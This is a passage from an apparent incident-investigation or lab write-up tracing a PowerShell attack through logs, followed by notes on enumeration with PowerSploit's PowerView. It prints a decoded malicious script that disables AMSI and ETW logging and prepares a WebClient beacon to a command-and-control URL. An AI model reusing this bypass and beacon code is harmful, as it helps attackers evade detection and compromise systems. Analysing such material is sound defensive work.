 ![Screenshot 2025-06-14 222355](https://github.com/user-attachments/assets/32e37a8b-7cc9-44f0-b74f-945b648a893c)

- the **process.pid: 7116**, in the command-line, it reads a base64-encoded malicious script stored in **the registry key** and launches a second hidden PowerShell process, which decodes and executes that malicious script. 
- Let's see what this process spawns, search for `ppid: 7116`.

![Screenshot 2025-06-14 223456](https://github.com/user-attachments/assets/692985d2-f7b9-46ff-90da-c13046ff95a2)

```powershell
If ($PSVersionTable.PSVersion.Major -ge 3) {
    $Ref = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
    $Ref.GetField('amsiInitFailed', 'NonPublic,Static').SetValue($Null, $true)

    [System.Diagnostics.Eventing.EventProvider]
        .GetField('m_enabled', 'NonPublic,Instance')
        .SetValue(
            [Ref].Assembly
                .GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
                .GetField('etwProvider', 'NonPublic,Static')
                .GetValue($null),
            0
        )
}

[System.Net.ServicePointManager]::Expect100Continue = 0
$wc = New-Object System.Net.WebClient

# Set the User-Agent string to look like a browser
$u = 'Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko'

# Decode and build the URL
$ser = ([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String(
    'aAB0AHQAcAA6AC8ALwBjAGQAbgAuAGIAYQBuAGEAbgBhAHAAZQBlAGwAccBhAHIAdAB5AC4AbgBlAHQAOgA4ADAA'
)))  # http://cdn.bananapeelparty.net:80

$t = '/news.php'

# Set headers and make the request
$wc.Headers.Add('User-Agent', $u)
$wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
```
- This payload connects to a malicious domain: `http:[//]cdn.bananapeelparty.net:80/news.php` and uses custom proxy and credentials to hide the traffic or bypass some firewall rules.

---
### Credential Access & Discovery:

- Following the execution of the malicious payload. In the log, the attacker executed some commands for enumeration. He also used [PowerSploit framework](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) to use `Invoke-ShareFinder` and `Get-DomainUser` functions for enumeration purposes.
